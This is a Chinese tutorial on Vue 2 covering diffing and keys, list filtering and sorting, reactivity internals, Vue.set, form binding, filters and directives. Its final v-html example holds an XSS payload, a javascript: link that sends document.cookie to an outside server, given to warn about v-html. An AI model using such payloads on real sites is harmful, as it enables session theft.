请看下面**简化**的源代码。上面例子的“**text 文本内容**”，对应下面源代码的“**如果两者的 text 不一样，让 vnode 的 text 直接给 el 的 text**”。而上面例子的“**子元素 input**”，对应下面源代码的“**如果两者都有子节点，则执行 updateChildren 比较子节点**”。`updateChildren`在**多个子节点**情况下很复杂，但上面例子还好比较**简单**，只是**一个子节点 input**。其实**最终**会让`sameVnode`去比较 input 的**新旧**虚拟 DOM，但是`sameVnode`**没有涉及**到输入组件的`value`比较，会认为新旧 input 是**相同**的，所以最后会将**旧**虚拟 DOM 的**真实 input 结构**直接**拿过来用**，这就导致 input 的 text 显示**串行**。

```js
// 比较新旧虚拟DOM，来决定怎么更新对应的真实DOM。oldVnode是旧虚拟DOM，vnode是新虚拟DOM
function patch(oldVnode, vnode) {
  if (sameVnode(oldVnode, vnode)) {
    // 简单比较当前层次节点
    patchVnode(oldVnode, vnode); // 复杂地比较子节点
  } else {
    // 以下代码很多，就不贴过来了
    // 根据新虚拟DOM来生成新真实DOM
    // 有父节点，如果没有就作为根节点
    // 1.添加 新虚拟DOM 对应的 真实DOM 到 父节点真实DOM 里
    // 2.从 父节点真实DOM 里 移除 旧虚拟DOM 对应的 真实DOM
  }
}
/**
 * 主要比较新旧虚拟DOM的text和children（其实text属于children这个数组里的）
 * 具体代码有些复杂，无关代码也混合其中，这里用注释书写了大概的逻辑
 */
function patchVnode(oldVnode, vnode) {
  // 因为经过sameVnode的简单比较，那认为两者的当前层次的真实DOM（el）保持相同
  // 如果两者指向同一个对象，就直接return
  // 如果两者的text不一样，让vnode的text直接给el的text
  // 如果oldVnode有子节点而Vnode没有，则删除el的子节点
  // 如果oldVnode没有子节点而Vnode有，则将Vnode的子节点真实化之后添加到el
  // 如果两者都有子节点，则执行updateChildren比较子节点，子节点很多的话就会很复杂
}
/**
 * 简单的比较，标签类型、data数据是否都存在、如果都是输入组件那组件类型是否相同等等
 * sameVnode和sameInputType都没有涉及到input的value比较
 */
function sameVnode(a, b) {
  return (
    a.key === b.key &&
    a.asyncFactory === b.asyncFactory &&
    ((a.tag === b.tag && a.isComment === b.isComment && isDef(a.data) === isDef(b.data) && sameInputType(a, b)) ||
      (isTrue(a.isAsyncPlaceholder) && isUndef(b.asyncFactory.error)))
  );
}
function sameInputType(a, b) {
  if (a.tag !== "input") {
    return true;
  }
  var i;
  var typeA = isDef((i = a.data)) && isDef((i = i.attrs)) && i.type;
  var typeB = isDef((i = b.data)) && isDef((i = i.attrs)) && i.type;
  return typeA === typeB || (isTextInputType(typeA) && isTextInputType(typeB));
}
var isTextInputType = makeMap("text,number,password,search,email,tel,url");
function isDef(v) {
  return v !== undefined && v !== null;
}
function isTrue(v) {
  return v === true;
}
function isUndef(v) {
  return v === undefined || v === null;
}
```

---

**总结拓展**：

1. key 是**虚拟 DOM**的**唯一标识**，当数据发生**变化**时，Vue 根据**新**数据生成**新的**虚拟 DOM，随后 Vue 进行**新**虚拟 DOM 与**旧**虚拟 DOM 的**差异比较**。
2. 比较的规则：
   1. 先**简单比较**新旧虚拟 DOM，如果**直接就不相同了**，就**新建**真实 DOM 并**舔加**到对应位置；
   2. **简单比较**相同后，**新旧**虚拟 DOM**共用**当前层次的真实 DOM（`el`），再去比较它们的`children`；
      1. 如果新旧虚拟 DOM 的`text`不一样，那就让新虚拟 DOM 的`text`给`el`的`text`的使用；（特殊子节点`text`有这条特殊规则）
      2. 如果旧虚拟 DOM**有子节点**而新虚拟 DOM**没有**，则删除 el 的子节点；
      3. 如果旧虚拟 DOM**没有子节点**而新虚拟 DOM**有**，则将新虚拟 DOM 的子节点真实化之后添加到 el；
      4. 如果新旧虚拟 DOM**都有子节点**，则执行`updateChildren`比较子节点，但最终会回归到**简单比较**。
3. 用`index`作为 key**可能会引发的问题**：
   1. 若对数据进行**逆序添加**、**逆序删除**等**破坏顺序**的操作，会产生**没有必要**的真实 DOM 更新（页面没问题，但效率低）；
   2. 若结构中还包含**输入类元素**，会产生错误的 DOM 更新（页面有问题）。
4. 开发中如何选择 key
   1. 最好使用每条数据的**唯一标识**作为 key，例如 id、学号等；
   2. 如果**不存在**对数据的逆序添加、逆序删除等**破坏顺序**的操作，**仅用于渲染列表**作为展示，使用 index 是没什么大问题的。

---

### 6.4 列表的过滤和排序

**列表的过滤**还是比较简单的，使用**计算属性**配合`filter`，或者使用**监视属性**配合`filter`，代码如下

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <input type="text" placeholder="请输入要搜索的关键字" v-model="keyWords" />
      <ul>
        <li v-for="(p, index) in filPersons" :key="p.id">{{p.name}}-{{p.sex}}</li>
      </ul>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          keyWords: "",
          persons: [
            { id: "001", name: "马冬梅", sex: "女" },
            { id: "002", name: "周冬雨", sex: "女" },
            { id: "003", name: "周杰伦", sex: "男" },
            { id: "004", name: "温兆伦", sex: "男" },
          ],
        },
        computed: {
          filPersons() {
            return this.persons.filter((p) => {
              return p.name.indexOf(this.keyWords) !== -1;
            });
          },
        },
      });
    </script>
  </body>
</html>
```

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <input type="text" placeholder="请输入要搜索的关键字" v-model="keyWords" />
      <ul>
        <li v-for="(p, index) in filPersons" :key="p.id">{{p.name}}-{{p.sex}}</li>
      </ul>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          keyWords: "",
          persons: [
            { id: "001", name: "马冬梅", sex: "女" },
            { id: "002", name: "周冬雨", sex: "女" },
            { id: "003", name: "周杰伦", sex: "男" },
            { id: "004", name: "温兆伦", sex: "男" },
          ],
          filPersons: [],
        },
        watch: {
          keyWords: {
            immediate: true,
            handler(val) {
              // return true是过滤出来
              this.filPersons = this.persons.filter((p) => {
                return p.name.indexOf(val) !== -1;
              });
            },
          },
        },
      });
    </script>
  </body>
</html>
```

**列表的排序**也很简单，新增一个跟**排序**有关的属性`sortType`，为`0`原顺序、`1`升序、`2`降序，再在**计算属性**`filPersons`对数据列表使用`sort()`排序即可。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <input type="text" placeholder="请输入要搜索的关键字" v-model="keyWords" />
      <button @click="sortType = 1">升序</button>
      <button @click="sortType = 2">降序</button>
      <button @click="sortType = 0">原顺序</button>
      <ul>
        <li v-for="(p, index) in filPersons" :key="p.id">{{p.name}}-{{p.age}}</li>
      </ul>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          keyWords: "",
          sortType: 0,
          persons: [
            { id: "001", name: "马冬梅", age: 30 },
            { id: "002", name: "周冬雨", age: 25 },
            { id: "003", name: "周杰伦", age: 27 },
            { id: "004", name: "温兆伦", age: 21 },
          ],
        },
        computed: {
          filPersons() {
            const arr = this.persons.filter((p) => {
              return p.name.indexOf(this.keyWords) !== -1;
            });
            if (this.sortType) {
              // 升序a-b，降序b-a
              arr.sort((a, b) => {
                return this.sortType === 1 ? a.age - b.age : b.age - a.age;
              });
            }
            return arr;
          },
        },
      });
    </script>
  </body>
</html>
```

## 七、Vue 的数据监视

### 7.1 更新时的一个问题

声明一点，这一章说的“**监视**”，与[监视属性](./1.vue基础.md#_4-2-监视属性)给开发人员提供的`watch`配置**并不是同一个东西**。

在**修改**列表数据的**某项**时，如果修改的是某项的**一些属性**，那是可以被 Vue**监视**到的，并会**更新**到页面；而如果**直接**将某项这样的**对象**直接**替换**掉（使用新对象），这样是**不会**被 Vue**监视**到的，所以也**不会更新**到页面。代码如下，我们在控制台打印`vm.persons[0]`或`vm._data.persons[0]`，会发现这个对象确实**被替换**了，但页面**没有更新**。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <button @click="updateMei">更新马冬梅这一行的信息</button>
      <ul>
        <li v-for="(p, index) in persons" :key="p.id">{{p.name}}-{{p.age}}</li>
      </ul>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          persons: [
            { id: "001", name: "马冬梅", age: 30 },
            { id: "002", name: "周冬雨", age: 25 },
            { id: "003", name: "周杰伦", age: 27 },
            { id: "004", name: "温兆伦", age: 21 },
          ],
        },
        methods: {
          updateMei() {
            // 页面生效了
            /* this.persons[0].name = '马老师';
                    this.persons[0].age = 50; */
            // 页面没生效，但vm.persons[0]是修改了的，只是没被Vue监视到
            this.persons[0] = { id: "001", name: "马老师", age: 50 };
          },
        },
      });
    </script>
  </body>
</html>
```

### 7.2 监视的数据是对象

我们想一下，怎么做到对数据**属性**进行**监视**呢？直接给**属性**使用`Object.defineProperty()`的`set`不就行了吗？确实是在属性的 setter 被触发时，可以去重新渲染页面，达到**监视**的目的。我们可以看以下代码会出现什么**问题**，如果在控制台里运行`data.name = '李四'`，就会出现`Uncaught RangeError: Maximum call stack size exceeded`这样的**报错**。这个报错的意思是“**超出了调用栈大小**”，这是因为你去改`data.name`会触发`set`，`set`内又改了`data.name`，这就陷入了一个**死循环**。

```js
let data = { name: "张三", age: 18 };
Object.defineProperty(data, "name", {
  get() {
    return data.name;
  },
  set(val) {
    data.name = val;
    // 对象的属性值改变，触发xxx动作，达到监视目的
  },
});
```

想要**优化**上面的代码，非常的简单，只需要另外定义一个**中间量**，让 getter/setter 实际访问的是这个**中间量**即可。将以下代码**复制**到浏览器**控制台**然后**回车执行**，语句`(2)`的`middle`会**保存**语句`(1)`中`data.name`的值`张三`；继续在**控制台**里输入`data.name`再**回车执行**，会出现语句`(3)`的打印日志，然后就运行到语句`(4)`，就会**读取**`middle`的值也就是语句`(2)`这里存储的值`张三`；继续在**控制台**里输入`data.name = '李四'`再**回车执行**，会出现语句`(5)`的打印日志，然后就运行到语句`(6)`，就会**修改**`middle`的值也就是语句`(2)`这里存储的值**变为**`李四`。这样你不管是**读取**还是**修改**`data.name`，实际上都是访问的是`middle`，这个`middle`就充当了一个**数据存储器**。

```js
let data = { name: "张三", age: 18 }; // (1)
let middle = data.name; // (2)
Object.defineProperty(data, "name", {
  get() {
    console.log("读取name，实际上读取的是middle"); // (3)
    return middle; // (4)
  },
  set(val) {
    console.log("修改name，实际上修改的是middle"); // (5)
    middle = val; // (6)
    // 对象的属性值改变，触发xxx动作，达到监视目的
  },
});
```

以上代码要完全模拟 Vue 中的数据监视，再加上`Object.key()`与遍历处理就可以了。我们直接看**简化**后的数据**监视**相关的**源代码**，你可以直接将下面的代码整体**复制**到浏览器**控制台**然后**回车执行**，再查看`vm._data`与前面章节里的`vm._data`是否差不多（暂时没有考虑**多层级**的对象，这会用到**递归**）。

```js
// 无关紧要的都删掉不看了
function Vue(options) {
  // vm会是以后的Vue实例，options就是配置对象
  var vm = this;
  // 暂时去掉Vue的处理，先直接赋给vm.$options
  vm.$options = options;
  // 数据处理相关
  initState(vm);
}
function initState(vm) {
  // 处理配置对象里的 “data”存储数据
  initData(vm);
}
function initData(vm) {
  var data = vm.$options.data;
  // 暂不考虑data是function的情况
  vm._data = data;
  // 本章 七、Vue的数据监视 的重点
  observe(data, true /* asRootData */);
}
// 本章 七、Vue的数据监视 的重点
function observe(value, asRootData) {
  var ob;
  if (hasOwn(value, "__ob__") && value.__ob__ instanceof Observer) {
    ob = value.__ob__;
  } else {
    ob = new Observer(value);
  }
  return ob;
}
function hasOwn(obj, key) {
  return hasOwnProperty.call(obj, key);
}
var Observer = function Observer(value) {
  this.value = value;
  // 属性是数组形式的
  if (Array.isArray(value)) {
    // 暂时省略，7.4 监视的数据是数组 里会说
  } else {
    // 属性是对象形式的
    this.walk(value);
  }
};
// 处理对象的所有属性
Observer.prototype.walk = function walk(obj) {
  var keys = Object.keys(obj);
  for (var i = 0; i < keys.length; i++) {
    defineReactive$$1(obj, keys[i]);
  }
};
// 本章 七、Vue的数据监视 的核心，为属性做响应式处理。不过多层级的对象暂时没有考虑
function defineReactive$$1(obj, key, val, customSetter, shallow) {
  // 读取obj对象里key属性的特性
  var property = Object.getOwnPropertyDescriptor(obj, key);
  if (property && property.configurable === false) return;
  var getter = property && property.get;
  var setter = property && property.set;
  // val是重点，下面的getter和setter最后都是访问的val，它是中间量
  if ((!getter || setter) && arguments.length === 2) {
    val = obj[key];
  }
  // 多层级的对象暂时不考虑，这个会用到递归
  // var childOb = !shallow && observe(val);
  // 修改obj对象里key属性的特性
  Object.defineProperty(obj, key, {
    enumerable: true,
    configurable: true,
    get: function reactiveGetter() {
      return getter ? getter.call(obj) : val;
    },
    set: function reactiveSetter(newVal) {
      setter ? setter.call(obj, newVal) : (val = newVal);
      /*
                dep.notify();通知所有订阅者，订阅者会调用patch。
                patch有在[6.3 key作用和简单diff分析]这节里说，
                是比较新旧虚拟DOM，然后决定如果更新真实DOM
            */
      // dep.notify();
      console.log("去重新渲染页面");
    },
  });
}
var vm = new Vue({
  el: "#root",
  data: {
    name: "张三",
  },
});
```

### 7.3 Vue.set()

可能会遇到这样一个需求，在存储数据中**追加**一个新属性，这个新属性在当时的**配置对象**的 data 里没有定义过。Vue 给我么提供了`Vue.set(target, key, value)`和`vm.$set(target, key, value)`来实现这样的数据，这两个方法的**参数列表**都是**一样**的，`target`表示你要往哪个对象里添加，`key`是新属性**名**，`value`是新属性**值**。可以看下面的代码。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>姓名：{{person.name}}</h2>
      <h2>性别：{{person.sex}}</h2>
      <h2>年龄：{{person.age}}</h2>
      <h2>爱好：{{person.hobby}}</h2>
      <h2>学校：{{person.school}}</h2>
      <button @click="addProperty">追加新属性</button>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          person: { name: "张三" },
        },
        methods: {
          addProperty() {
            Vue.set(this._data.person, "sex", "男");
            this.$set(this._data.person, "age", 18);
            Vue.set(this.person, "hobby", "打球");
            this.$set(this.person, "school", "武汉大学");
          },
        },
      });
    </script>
  </body>
</html>
```

上面的例子，在点击按钮后，页面上会出现新的展示信息，在浏览器控制台也可以检查到`vm`和`vm._data`里都有出现对应的新属性（可以直接加到`vm`上，因为有**数据代理**的关系）。然后`Vue.set()`和`vm.$set()`会有一个**限制**，这两个方法的第一个参数`target`，**必**须是**存储数据**中**已存在的属性**，**不能**是`vm`（Vue 实例）**也不能**是`vm._data`（Vue 实例根数据对象）。上面例子的`target`就是`this._data.person`已存在的**属性**。

### 7.4 监视的数据是数组

在前面说的数据监视，说的是**对象**类型的，没有提到**数组**类型的。下面是简化的源代码，对数组的**每一项**的**本身**并没有进行监视，但是会递归每一项，递归到的数据是**对象**，就会对这个**对象**的**所有属性**进行**监视**（就回到[7.2 监视的数据是对象](./1.vue基础.md#_7-2-监视的数据是对象)了）；递归到的是**数组**就**继续递归**，直至完毕。

```js
var Observer = function Observer(value) {
  this.value = value;
  // 属性是数组形式的
  if (Array.isArray(value)) {
    if (hasProto) {
      protoAugment(value, arrayMethods);
    } else {
      copyAugment(value, arrayMethods, arrayKeys);
    }
    // 对数组每一项进行observe递归
    this.observeArray(value);
  } else {
    // 属性是对象形式的
    this.walk(value);
  }
};
/**
 * walk()里是调用了defineReactive$$1()
 * 而observeArray()是直接调用了observe()，递归了
 * 表达的意思是，对数组的每一项不进行监视，但对每一项里的所有属性进行observe递归，
 * 直到该项数据不是数组，就可以使用defineReactive$$1()进行监视了。
 */
Observer.prototype.observeArray = function observeArray(items) {
  for (var i = 0, l = items.length; i < l; i++) {
    observe(items[i]);
  }
};
```

因为对数组**每一项**没有进行监视，所以你完全**替换**掉**某一项**，页面是**不会**进行**重新渲染**的，这在[7.1 更新时的一个问题](./1.vue基础.md#_7-1-更新时的一个问题)里出现过。**但是**，对数组进行`push()`、`pop()`、`shift()`、`unshift()`、`splice()`、`sort()`、`reverse()`这些操作，会被 Vue**监视**到。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <button @click="deleteItem">删除最后一项</button>
      <ul>
        <li v-for="(p, index) in persons" :key="p.id">{{p.name}}-{{p.age}}</li>
      </ul>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          persons: [
            { id: "001", name: "马冬梅", age: 30 },
            { id: "002", name: "周冬雨", age: 25 },
            { id: "003", name: "周杰伦", age: 27 },
            { id: "004", name: "温兆伦", age: 21 },
          ],
        },
        methods: {
          deleteItem() {
            // 页面生效了
            !!this.persons.length && this.persons.pop();
          },
        },
      });
    </script>
  </body>
</html>
```

我们可以看到这一小节一开始的简化**源代码**里的`protoAugment(value, arrayMethods);`和`copyAugment(value, arrayMethods, arrayKeys);`，其中这个`arrayMethods`就是关键所在，Vue 对数组的那 7 个方法进行了**包裹**，可以**大概了解**一下下面的**源代码**，在开发人员使用数组的这些方法时，Vue 最终会走`notify()`去**重新渲染页面**。

```js
var arrayProto = Array.prototype;
var arrayMethods = Object.create(arrayProto);
var methodsToPatch = ["push", "pop", "shift", "unshift", "splice", "sort", "reverse"];

methodsToPatch.forEach(function (method) {
  // cache original method
  var original = arrayProto[method];
  def(arrayMethods, method, function mutator() {
    var args = [],
      len = arguments.length;
    while (len--) args[len] = arguments[len];

    var result = original.apply(this, args);
    var ob = this.__ob__;
    var inserted;
    switch (method) {
      case "push":
      case "unshift":
        inserted = args;
        break;
      case "splice":
        inserted = args.slice(2);
        break;
    }
    if (inserted) {
      ob.observeArray(inserted);
    }
    // notify change
    ob.dep.notify();
    return result;
  });
});
function def(obj, key, val, enumerable) {
  Object.defineProperty(obj, key, {
    value: val,
    enumerable: !!enumerable,
    writable: true,
    configurable: true,
  });
}
```

---

**总结拓展**：

1. Vue 会**监视**data 中所有层次的数据（数组每项有些特殊）。
2. Vue 通过**setter**实现**监视**，且要在 Vue 实例化时传入**配置对象**，配置对象包含`data`。
   1. 对象中**追加**的属性，Vue 默认不做**响应式处理**；
   2. 若要给追加的属性做**响应式处理**，请使用`Vue.set()`或`vm.$set()`。
3. Vue 对数组进行监视比较**特殊**，对数组**本身这个引用**（属于对象的某个属性）是**做了**监视，而对数组里**每一项**的本身**没有做**监视。然后对数组的**7 个**常用方法做了监视。
   1. 7 个方法是`push()`、`pop()`、`shift()`、`unshift()`、`splice()`、`sort()`、`reverse()`；
   2. 若不使用上面 7 个方法也想达到**响应式处理**效果，可以使用`Vue.set()`或`vm.$set()`，例如`Vue.set(vm.persons, 1, { id: '003', name: '周杰伦', age: 27 })`。
4. `Vue.set()`和`vm.$set()`不能给`vm`或**根数据对象**（`data`）添加属性。

---

## 八、表单和过滤器

### 8.1 收集表单数据

我们在[1.3 单向和双向数据绑定](./1.vue基础.md#_1-3-单向和双向数据绑定)这一节了简单介绍过`v-model`，但实际使用还不是表面这么简单，有很多关于**收集表单数据**的**技巧**。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- form这里用不到action，一般使用ajax进行请求。submit表单的提交事件 -->
      <form @submit.prevent="submit">
        <!-- 点击标签也能让输入框获取焦点，可以使用for属性关联输入框 -->
        <!--给v-model加上修饰符，去掉收尾的空格-->
        <label for="account">账号：</label>
        <input type="text" id="account" v-model.trim="userInfo.account" /><br /><br />
        <label for="password">密码：</label>
        <input type="password" id="password" v-model="userInfo.password" /><br /><br />
        <!-- 加上number类型的限制，即使type是number，data里还是字符串，得使用v-model的修饰符 -->
        年龄：<input type="number" v-model.number="userInfo.age" /><br /><br />
        <!-- 一组单选框相当于单选题，各自的value="xxx"是单选题的选项，v-model="yyy"是单选题的答案 -->
        性别：
        <input type="radio" v-model="userInfo.sex" value="male" />男
        <input type="radio" v-model="userInfo.sex" value="female" />女<br /><br />
        <!-- 一组复选框相当于多选题，各自的value="xxx"是多选题的选项，v-model="yyy"是多选题的答案 -->
        <!-- 这个多选题的答案绑定yyy变量，最好是使用数组类型，除非这里只有一个input -->
        爱好：
        <input type="checkbox" v-model="userInfo.hobby" value="study" />学习
        <input type="checkbox" v-model="userInfo.hobby" value="compute" />上网
        <input type="checkbox" v-model="userInfo.hobby" value="eat" />吃饭<br /><br />
        所属地区：
        <select v-model="userInfo.city">
          <option value="beijing">北京</option>
          <option value="shanghai">上海</option>
          <option value="guangzhou">广州</option>
          <option value="shenzhen">深圳</option></select
        ><br /><br />
        <!-- 给v-model加上修饰符，让它不要实时收集数据，只在失去焦点时才收集 -->
        其他信息：<textarea v-model.lazy="userInfo.other"></textarea><br /><br />
        <!-- 单个的checkbox类input，直接去掉value="xxx"，v-model直接收集checked了（布尔值） -->
        <input type="checkbox" v-model="userInfo.agree" /> 阅读并接受 <a href="www.baidu.com">《用户协议》</a
        ><br /><br />
        <button>提交</button>
      </form>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          userInfo: {
            account: "",
            password: "",
            age: "",
            sex: "male",
            hobby: [],
            city: "",
            other: "",
            agree: false,
          },
        },
        methods: {
          submit() {
            console.log("userInfo", this.userInfo);
          },
        },
      });
    </script>
  </body>
</html>
```

---

**总结拓展**：

1. 常用的浏览器自带表单类组件`<input type="xxx">`、`<select>`、`<textarea>`等，`v-model`基本都是绑定的**value 属性**，都可以用**简写**形式。
2. `v-model`在**个别**组件会表现得有些**特殊**。
   1. `<input type="radio">`，多个“**选项**”（input）形成一道“**单选题**”，最后还要有“**答案**”。每个**选项**得先加上“**标号**”才能使用（单选题的`A`、`B`、`C`），那就给**每个**input 设置**值不相同**的**value 属性**（值常用**常量**字符串）。这个**答案**就是沟通**内外**的**桥梁**，那就给**每个**input 设置`v-model="xxx"`，xxx 就是**答案**（通常是 data 里的某个**变量**）。
   2. `<input type="checkbox">`，它和上面的`radio`很像，同样要给**每个**input 设置**值不相同**的**value 属性**（**多选题**的`A`、`B`、`C`），同样要给**每个**input 设置`v-model="xxx"`（多选题的**答案**）。开发人员要根据**选项**的**数量**（input 数量）决定这个**xxx**是**什么类型**的**变量**，**多个**input 就用**数组**类型（收集多个 input 的**value**），**单个**input 就是用**布尔**类型（只有一个 input，直接收集**checked**）。
3. `v-model`有三个**修饰符**：
   1. `.trim`，**去掉**输入值**首尾**的**空格**；
   2. `.number`，输入字符串转为有效的**数值**；
   3. `.lazy`，**失去焦点**再收集数据。
4. 可以用`<label>`的**for**属性关联`<input>`的**id**属性，那么在点击标签时也能让输入框获得**焦点**。
5. `<form>`表单一般用不到**action**属性了，可以使用`@submit`绑定事件作为提交，并且还能加上**事件修饰符**（例如`.prevent`）。

---

### 8.2 过滤器

我们经常遇到将时间戳**转换**后再到页面展示，转换的标准是固定的，我们可以引入第三方的类库来处理。引入后，这些**格式化方法**可以形成一个**过滤器**方法，能被多处调用。**过滤器**使用的是`filters`（它与`computed`平级），里面都是**过滤器方法**，在模板里使用的使用会与变量用`|`隔开。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
    <!--引入时间处理相关的第三方类库-->
    <script src="https://cdn.bootcdn.net/ajax/libs/dayjs/1.10.6/dayjs.min.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>{{time|timeFormater}}</h2>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: {
          time: 1631345001107,
        },
        // 过滤器
        filters: {
          // value值就是“|”前面那个变量的值（默认传参），将这个值进行格式化后return
          timeFormater(value) {
            return dayjs(value).format("YYYY-MM-DD HH:mm:ss");
          },
        },
      });
    </script>
  </body>
</html>
```

- 过滤器可以**额外接收参数**，过滤方法还是一样的，要适配好传参不传参的情况。
- 可以**组合使用**多个过滤器方法，继续在原基础上追加`|xxxFormater`，对应在`filters`里新增过滤器方法。
- 写在 Vue 实例的配置对象里`filters`的是**局部过滤器**，我们是可以定义**全局过滤器**，在**Vue 实例化前**使用`Vue.filter('xxx',function(){})`。定义**全局过滤器**的原因是，让多个**组件**使用（**组件**会在后面将）。
- 过滤器是**可以**使用在`v-bind`指令里的，但是**不能**使用在`v-model`指令里。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
    <!--引入时间处理相关的第三方类库-->
    <script src="https://cdn.bootcdn.net/ajax/libs/dayjs/1.10.6/dayjs.min.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>{{time|timeFormater}}</h2>
      <!-- 过滤器额外接收参数，整体方法不变，对应要优化过滤器方法 -->
      <h2>{{time|timeFormater('YYYY-MM-DD')}}</h2>
      <!-- 追加使用新的过滤器方法 -->
      <h2>{{time|timeFormater('YYYY-MM-DD')|sliceStr}}</h2>
      <!-- addStr是全局过滤器 -->
      <h2>{{time|timeFormater('YYYY-MM-DD')|sliceStr|addStr}}</h2>
      <h2 :x="msg|sliceStr">在v-bind里使用sliceStr过滤器，打开F12查看</h2>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      // 在Vue实例化前定义一个全局过滤器
      Vue.filter("addStr", function (value) {
        return value + "我是全局过滤器添加的小尾巴";
      });
      const vm = new Vue({
        el: "#root",
        data: {
          time: 1631345001107,
          msg: "你在看什么？",
        },
        // 过滤器
        filters: {
          // value是默认传参，这里对之前的代码进行了优化
          timeFormater(value, formatStr = "YYYY-MM-DD HH:mm:ss") {
            return dayjs(value).format(formatStr);
          },
          // 新过滤器方法
          sliceStr(value) {
            return value.slice(0, 4);
          },
        },
      });
    </script>
  </body>
</html>
```

---

**总结拓展**：

1. 过滤器定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑处理）。
2. 过滤器语法：`Vue.filter('xxx',function(value){})`全局定义过滤器，`new Vue({filters:{xxx(value){}}})`局部定义过滤器。
3. 过滤器的使用：`{{xxx|yyyFormater}}` 或 `v-bind="xxx|yyyFormater"`，但要记得不要在`v-model`里使用过滤器。
4. 过滤器可以额外接收参数，多个过滤器可以组合使用（串联）。

---

## 九、内置指令和自定义指令

### 9.1 内置指令

在[1.3 单向和双向数据绑定](./1.vue基础.md#_1-3-单向和双向数据绑定)里介绍了`v-bind`和`v-model`，在[3.1 事件处理](./1.vue基础.md#_3-1-事件处理)里介绍了`v-on`，在[6.1 条件渲染](./1.vue基础.md#_6-1-条件渲染)里介绍了`v-show`和`v-if`，在[6.2 列表渲染](./1.vue基础.md#_6-2-列表渲染)里介绍了`v-for`。这些都是**内置指令**，也就是 Vue 提供的指令。这一节我们将**剩下**的**内置指令**简单介绍一下。

`v-text="xxx"`会整体替换掉标签的**标签体内容**。与插值`{{xxx}}`的区别，插值可以插入到标签体内容而**替换局部**。还有值得注意的是，即使 xxx 里有**标签**也不会被**解析**，会直接被**当做字符串**来展示。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <div v-text="name"></div>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      const vm = new Vue({
        el: "#root",
        data: { name: "<h2>张三</h2>" },
      });
    </script>
  </body>
</html>
```

`v-html`是可以支持标签解析的，这是与`v-text`的区别。`v-html`可能会涉及到**安全问题**，因为它在**解析**标签的时候可能会遇到 js 代码里获取**敏感信息**，将这些敏感信息**泄露**给不怀好意的服务器。下面这个例子，会将`<a>`解析出来，这个`<a>`有恶意 js 脚本，点击`<a>`会读取浏览器的**cookie 信息**，并将这个 cookie 信息传递给了**跳转的服务器地址**。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Document</title>
    <script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <div v-html="msg"></div>
    </div>
    <script type="text/javascript">
      Vue.config.productionTip = false;
      // 其实cookie中有个HttpOnly字段，可以只让http协议相关的才能读取cookie信息，避免js代码读取
      const vm = new Vue({
        el: "#root",
        data: {
          msg: `<a href=javascript:location.href='http://www.baidu.com?'+document.cookie>这里有你想要的资源，限时免费哟！</a>`,
        },
      });
    </script>
  </body>
</html>
```

